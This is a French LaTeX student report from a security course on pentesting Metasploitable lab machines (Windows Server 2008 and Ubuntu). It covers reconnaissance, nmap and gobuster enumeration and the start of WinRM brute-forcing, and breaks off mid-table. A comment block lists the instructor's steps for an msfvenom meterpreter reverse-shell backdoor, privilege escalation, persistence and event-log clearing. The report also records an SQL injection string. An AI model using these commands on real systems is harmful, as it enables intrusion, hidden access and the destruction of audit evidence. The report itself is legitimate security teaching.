\documentclass[a4paper]{article}

%% Language and font encodings
\usepackage[french]{babel}
\usepackage[utf8x]{inputenc}
\usepackage[T1]{fontenc}

%% Sets page size and margins
\usepackage[a4paper,top=3cm,bottom=3cm,left=2cm,right=2cm,marginparwidth=2cm]{geometry}

%% Useful packages
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage[colorinlistoftodos]{todonotes}
\PassOptionsToPackage{hyphens}{url}
\usepackage[colorlinks=true, allcolors=black]{hyperref}
\usepackage{fourier-orns}
\usepackage{titlesec}
\usepackage{fancyhdr}
\usepackage{fancyvrb}
\usepackage{float}
\pagestyle{fancy} 
\setcounter{tocdepth}{5}

%% Example
\usepackage{mdframed}
\newmdenv[topline=false, bottomline=false, rightline=false, skipabove=2mm, skipbelow=2mm]{example}

%% Tikz stuff
\usepackage{tikz}
\usetikzlibrary{calc, arrows}
\tikzstyle{incolore} = [rectangle, rounded corners, draw=black, minimum height=1cm, minimum width=3cm, text width=3cm, text centered]

\usepackage{libertine}
\newcommand{\hsp}{\hspace{20pt}}
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}

\renewcommand{\headrulewidth}{1pt}
\fancyhead[C]{} 
\fancyhead[L]{}
\fancyhead[R]{\footnotesize{\leftmark}}

\renewcommand{\footrulewidth}{1pt}
\fancyfoot[C]{} 
\fancyhead[L]{}
\fancyfoot[R]{\thepage}

\definecolor{Zgris}{rgb}{0.87,0.85,0.85}

\usepackage{eso-pic,graphicx}
\usepackage{xcolor}
\newcommand{\bgimg}[1]
{
    \AddToShipoutPicture
    {
        \put(\LenToUnit{0 cm},\LenToUnit{0 cm})
        {
            \includegraphics[width=\paperwidth,height=\paperheight]{#1}
        }
    }
}
\begin{document}





\begin{titlepage}
    \begin{sffamily}
        \begin{center}

            
\includegraphics[width=5cm]{images/LogoHenallux.PNG}~\\[1.5cm]
            \textsc{\Large Rapport du projet}\\[1.5cm]

            \HRule \\[0.4cm]
            { \huge \bfseries Pentest Metasploitable et monitoring Zabbix\\[0.4cm] }
            \HRule \\[2cm]

            \begin{minipage}{0.4\textwidth}
                \begin{flushleft} \large
                    Roumache Grégoire\\
                    Bloc 2, classe C, etu43813 \\
                    Année académique 2020-2021\\
                \end{flushleft}
            \end{minipage}
            \begin{minipage}{0.55\textwidth}
                \begin{flushright} \large
                    Sécurité du système d'exploitation\\
                    Sécurité des systèmes\\
                    Hénallux\\
                \end{flushright}
            \end{minipage}
            \vfill

            {\large 20 Mai 2021}

        \end{center}
    \end{sffamily}
\end{titlepage}

\let\cleardoublepage\clearpage















\section{Introduction}





J'ai choisi d'utiliser le réseau: 192.168.1.0/24, la topologie est représentée sur la figure \ref{fig:topologie}. Il y a deux machines metasploitable:
\begin{itemize}
    \item windows serveur 2008: 192.168.1.4
    \item ubuntu: 192.168.1.5
\end{itemize}
Pour la partie metasploitable de ce travail, je précise pour chaque service quelle machine j'utilise.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{images/topologie-01.png}
    \label{fig:topologie}
    \caption{Topologie de l'infrastructure}
\end{figure}





%% CE QUE LE PROF A FAIT DANS SON COURS THÉORIQUE

%  1. nmap -sP <ip_metasploitable> (essayer aussi sur une ip inutilisée -- pour voir la diff)
%  2. nmap -sS <ip_metasploitable>
%  3. nmap -sV <ip_metasploitable>
%  4. msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip_hôte> -f exe > <chemin>/backdoor.exe
%  5. scp backdoor.exe vagrant@<ip_metasploitable>
%  6. msfconsole
%  7. use exploit/multi/handler
%  8. show options
%  9. show info
% 10. set payload windows/meterpreter/reverse_tcp (ce qui a été utilisé pour faire la backdoor)
% 11. set lhost <ip_hôte>
% 12. exploit
% 13. # le prof a double-cliqué sur backdoor.exe dans la vm vagrant
% 14. help
% 15. getuid (user id)
% 16. getpid (process id)
% 17. ps (montre tous les process)
% 18. migrate 1484 (migre la backdoor de backdoor.exe au process de pid 1484 -- svchost.exe)
% 19. getsystem (obtient les droits administrateurs sur la machine)
% 20. ls; pwd; cd ..; pwd; cd ..; ls; cd Users; ls; cd Administrator; ls; cd Documents; ls
% 21. download <fichier>
% 22. run persistence (pour que meterpreter soit persistent)
% 23. run event_manager -c (clear logs)
% 24. run event_manager -i (pour voir les traces restantes dans les logs)















\section{Mise en place de l'Active Directory}





Vous pouvez voir sur les figures \ref{fig:AD} et \ref{fig:comptesAD} la configuration de l'Active Directory et les utilisateurs créés.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{images/active-directory.PNG}
    \caption{Active Directory}
    \label{fig:AD}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\linewidth]{images/comptes-active-directory.PNG}
    \caption{Comptes créés dans l'Active Directory}
    \label{fig:comptesAD}
\end{figure}















\newpage \section{Partie Metasploitable}










\subsection{Reconnaissance}





La phase de reconnaissance lors d'un pentest, c'est récupérer des informations de manière passive. Par exemple, récupérer des information à partir des réseaux sociaux, des informations DNS ou des bases de données WHOIS. Dans ce cas-ci, ce n'est évidemment pas possible d'utiliser ces méthodes. Je vais donc seulement aller sur le site web du serveur et faire des recherches manuelles dessus. J'ai été sur les ports souvent utilisés par les serveurs web.





\subsubsection{Reconnaissance Windows Server 2008}





\begin{itemize}
    \item port 80:
    \begin{example}
        \begin{enumerate}
            \item On peut voir sur la figure \ref{fig:reconnaissance01}, qu'il n'y a pas d'informations importantes disponibles sur ce site.
            \item Cependant, lorsqu'on regarde les headers (figure \ref{fig:reconnaissance02}), on obtient des informations intéressantes:
            \begin{center}
                \begin{tabular}{|l|l|} \hline
                    \textbf{Header} & \textbf{Valeur} \\ \hline \hline
                    Server & Microsoft-IIS/7.5 \\ \hline
                    X-Powered-By & ASP.NET \\ \hline
                \end{tabular}
            \end{center}
            \item En allant sur le chemin: \texttt{\footnotesize /test}, on obtient une page d'erreur, cependant, celle-ci ne nous donne aucune information de débogage intéressant.
        \end{enumerate}
    \end{example}
    \item port 443 (https): aucun résultat
    \item port 8000: aucun résultat
    \item port 8080:
    \begin{example}
        \begin{enumerate}
            \item Je suis arrivé sur une page par défaut d'un serveur java \textit{GlassFish} (figure \ref{fig:reconnaissance07}).
            \item Sur cette page, on observe un lien intéressant vers \textit{localhost}. En remplaçant \textit{localhost} par l'ip de la machine, on arrive sur une page de login (figure \ref{fig:reconnaissance10}).
            \item Dans le code source de cette page, on observe un lien intéressant, en allant sur le chemin: \texttt{\footnotesize /resource}, on arrive sur une page d'erreur sans informations de débogage intéressantes (figure \ref{fig:reconnaissance11}).
            \item Après avoir effectué des recherches sur les vulnérabilités du serveur \textit{GlassFish}, j'ai pu trouvé qu'il était potentiellement vulnérable aux attaques d'injection SQL. J'ai donc essayé avec: \texttt{\footnotesize admin' OR 1=1; -{}-}, ça n'a pas fonctionné.
            \item J'ai aussi essayé les login/mot de passe par défaut mais ils n'ont pas fonctionné \cite{1}.
        \end{enumerate}
    \end{example}
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.70\linewidth]{images/reconnaissance-01.PNG}
    \caption{Windows Server reconnaissance sur le port 80, réponse}
    \label{fig:reconnaissance01}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{images/reconnaissance-02.PNG}
    \caption{Windows Server reconnaissance sur le port 80, headers de la réponse}
    \label{fig:reconnaissance02}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{images/reconnaissance-07.PNG}
    \caption{Windows Server reconnaissance sur le port 8080, page par défaut serveur \textit{GlassFish}}
    \label{fig:reconnaissance07}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{images/reconnaissance-10.PNG}
    \caption{Windows Server reconnaissance sur le port 8080, page de login}
    \label{fig:reconnaissance10}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.70\linewidth]{images/reconnaissance-11.PNG}
    \caption{Windows Server reconnaissance sur le port 8080, page d'erreur}
    \label{fig:reconnaissance11}
\end{figure}





\subsubsection{Reconnaissance Ubuntu 14.04}





\begin{itemize}
    \item port 80:
    \begin{example}
        \begin{enumerate}
            \item La première page était un index avec quatre liens (figure \ref{fig:reconnaissance17}). Et on peut y voir la version du serveur: Apache/2.4.7.
            \item Le premier lien mène vers un salon de chat qui n'a pas été sensible à mes injections SQL mais bien à mes attaques XSS comme vous pouvez le voir sur la figure \ref{fig:reconnaissance18}. Dans les headers, on trouve aussi la version de php: PHP/5.4.5.
            \item Le deuxième lien mène à la page de connexion de drupal qui est un module php pour gérer du contenu. Dans les headers de la réponse, on trouve les versions de php et de drupal: Drupal 7.
            \item Sur le troisième lien, on tombe sur la page de connexion de l'application payroll\_app.php. Dans les headers, on y trouve aussi la version de php. Ce formulaire de connexion est vulnérable aux injections SQL, voir figure \ref{fig:reconnaissance20}.
            \item Le dernier lien mène à l'application phpMyAdmin. Dans les headers, on trouve la version de php.
        \end{enumerate}
    \end{example}
    \item port 443 (https): aucun résultat
    \item port 8000: aucun résultat
    \item port 8080:
    \begin{example}
        \begin{enumerate}
            \item J'ai été accueilli par une page bizarre avec un seul lien que j'ai suivi (figure \ref{fig:reconnaissance13}). On peut voir dans les headers de la réponse la version du serveur: Jetty 8.1.7.v20120910.
            \item Je suis arrivé sur une page de login sur laquelle j'ai tenté une injection sql (figure \ref{fig:reconnaissance15}).
        \end{enumerate}
    \end{example}
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.50\linewidth]{images/reconnaissance-17.PNG}
    \caption{Ubuntu reconnaissance sur le port 80, page d'index}
    \label{fig:reconnaissance17}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{images/reconnaissance-18.PNG}
    \caption{Ubuntu reconnaissance sur le port 80, chat room}
    \label{fig:reconnaissance18}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{images/reconnaissance-19.PNG}
    \caption{Ubuntu reconnaissance sur le port 80, drupal}
    \label{fig:reconnaissance19}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{images/reconnaissance-20.PNG}
    \caption{Ubuntu reconnaissance sur le port 80, injection SQL dans l'application php}
    \label{fig:reconnaissance20}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{images/reconnaissance-13.PNG}
    \caption{Ubuntu reconnaissance sur le port 8080, page d'accueil}
    \label{fig:reconnaissance13}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{images/reconnaissance-16.PNG}
    \caption{Ubuntu reconnaissance sur le port 8080, page de login}
    \label{fig:reconnaissance15}
\end{figure}










\newpage \subsection{Énumération, scanning}





La phase d'énumération d'un pentest est la continuation de la phase de reconnaissance. Une fois qu'on a chercher des informations sur la cible de manière passive, on les cherche de manière active.

\begin{enumerate}
    \item D'abord, il faut démarrer le service postrgresql et lancer msfconsole avec des privilèges administrateurs (car certaines options de nmap ont besoin de droits suplémentaires).
    \item Ensuite, j'ai effectué un scan de l'ensemble des ports de la machine avec nmap dans msfconsole: \texttt{\footnotesize db\_nmap -p- -sS -sU -A 192.168.1.4-5}
    \begin{center} \begin{tabular}{|l|l|} \hline
        \textbf{option} & \textbf{spécification} \\ \hline \hline
        \texttt{\footnotesize -p-} & scan tous les ports \\ \hline
        \texttt{\footnotesize -sS} & scan tcp syn (envoie juste le 1er syn de la connection tcp) \\ \hline
        \texttt{\footnotesize -sU} & scan udp \\ \hline
        \texttt{\footnotesize -A}  & mode agressif (détection d’os, de version, utilisation de scripts, etc.) \\ \hline
    \end{tabular} \end{center}
    Hôtes:
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Hosts
=====

address      mac                os_name       purpose
-------      ---                -------       -------
192.168.1.4  08:00:27:e9:c4:a9  Windows 2008  server
192.168.1.5  08:00:27:42:51:79  Linux         server
\end{Verbatim}
    \end{example}
    Services windows server 2008 (192.168.1.4):
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Services
========

port   proto  name              info
----   -----  ----              ----
21     tcp    ftp               Microsoft ftpd
22     tcp    ssh               OpenSSH 7.1 protocol 2.0
80     tcp    http              Microsoft IIS httpd 7.5
1617   tcp    java-rmi          Java RMI
4848   tcp    ssl/appserv-http  
5985   tcp    http              Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
8020   tcp    http              Apache httpd
8027   tcp                      
8080   tcp    http              Sun GlassFish Open Source Edition  4.0
8383   tcp    ssl/http          Apache httpd
8484   tcp    http              Jetty winstone-2.8
8585   tcp    http              Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2
9200   tcp    wap-wsp           
49153  tcp    msrpc             Microsoft Windows RPC
49154  tcp    msrpc             Microsoft Windows RPC
49168  tcp    java-rmi          Java RMI
49169  tcp    tcpwrapped            
\end{Verbatim}
    \end{example}
    Service ubuntu (192.168.1.5):
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Services
========

port   proto         info
----   -----         ----
21     ftp           ProFTPD 1.3.5
22     ssh           OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 Ubuntu Linux; protocol 2.0
80     http          Apache httpd 2.4.7
445    netbios-ssn   Samba smbd 4.3.11-Ubuntu workgroup: WORKGROUP
631    ipp           CUPS 1.7
3000   ppp
3306   mysql         MySQL unauthorized
3500   http          WEBrick httpd 1.3.1 Ruby 2.3.8 (2018-10-18)
6697   irc           UnrealIRCd
8080   http          Jetty 8.1.7.v20120910
8181   intermapper
\end{Verbatim}
    \end{example}
    \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \item Comme je n'arrivais pas à aller dans la partie administration de Tomcat (port 8282 de la machine windows server), je vais utiliser gobuster pour la trouver. \\
    Commande utilisée: \texttt{\footnotesize gobuster dir -u http://192.168.1.4:8282} \\ \texttt{\footnotesize -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt} \\
    Résultat:
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
/axis2 (Status: 302)
\end{Verbatim}
    \end{example}
\end{enumerate}










\newpage \subsection{Exploitation: gagner un accès au serveur}





Maintenant que j'ai récupéré des informations de manières passive et active sur la cible, il est temps de chercher à exploiter des vulnérabilités dans ses services pour y accéder. Pour ce travail, il faut choisir quatre services à attaquer.





\subsubsection{Windows Server - WinRM \& Powershell}





\begin{enumerate}
    \item Pour chercher les vulnérabilités de windows remote management (WinRM) facilement exploitable avec msfconsole, j'ai utilisé la commande: \texttt{\footnotesize search WinRM}.
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Matching Modules
================

#  Name                                                 Rank    Check
-  ----                                                 ----    -----
0  auxiliary/scanner/winrm/winrm_auth_methods           normal  No
1  auxiliary/scanner/winrm/winrm_cmd                    normal  No
2  auxiliary/scanner/winrm/winrm_login                  normal  No
3  auxiliary/scanner/winrm/winrm_wql                    normal  No
4  exploit/windows/local/bits_ntlm_token_impersonation  great   Yes
5  exploit/windows/winrm/winrm_script_exec              manual  No
\end{Verbatim}
    \end{example}
    \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \item Il y a quatre scanners et deux exploits. Le premier exploit n'est utilisable qu'en local alors que le second permet l'exécution de code à distance, cependant, il requiert un nom d'utilisateur et un mot de passe. Je vais donc essayer de les trouver avec le deuxième scanner.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use auxiliary/scanner/winrm/winrm\_login}
            \item \texttt{\footnotesize set pass\_file /usr/share/wordlists/metasploit/unix\_passwords.txt}
            \item \texttt{\footnotesize set user\_file /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize run}
            \item \texttt{\footnotesize creds}
        \end{itemize}
        Résultat:
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Credentials
===========

service          public         private  realm        private_type
-------          ------         -------  -----        ------------
